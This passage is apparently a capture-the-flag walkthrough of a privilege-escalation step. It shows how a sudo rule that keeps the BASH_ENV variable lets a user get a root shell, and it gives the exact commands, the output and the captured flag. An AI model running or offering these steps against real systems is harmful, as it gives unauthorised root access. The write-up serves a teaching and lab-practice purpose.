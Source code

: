 ## **Privilige escalation**

We start with the classic enumeration step: checking `sudo -l`.

```bash
hish@environment:~$ sudo -l
[sudo] password for hish: 
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo

```

The interesting part here is:

- The script `/usr/bin/systeminfo` can be run with `sudo`.
- The `sudo` configuration allows the environment variables `ENV` and `BASH_ENV` to be kept.
- Since `/usr/bin/systeminfo` is a **bash script**, it will load the file specified in `BASH_ENV` on execution.

This means we can abuse `BASH_ENV` to inject our own commands and get a root shell.

---

1. Create a malicious script that spawns a root shell:

```bash
echo "/bin/bash -p" > /tmp/rootme
chmod +x /tmp/rootme
```

1. Export it as `BASH_ENV`:

```bash
export BASH_ENV=/tmp/rootme
```

1. Run the vulnerable script with `sudo`:

```bash
sudo /usr/bin/systeminfo
```

1. This drops us into a **root shell**:

```bash
root@environment:/home/hish# cat /root/root.txt
788fb20e766ed6f427577ca9088e4aee
```

✅ Exploited `BASH_ENV` variable + sudo misconfiguration to escalate privileges to **root**.
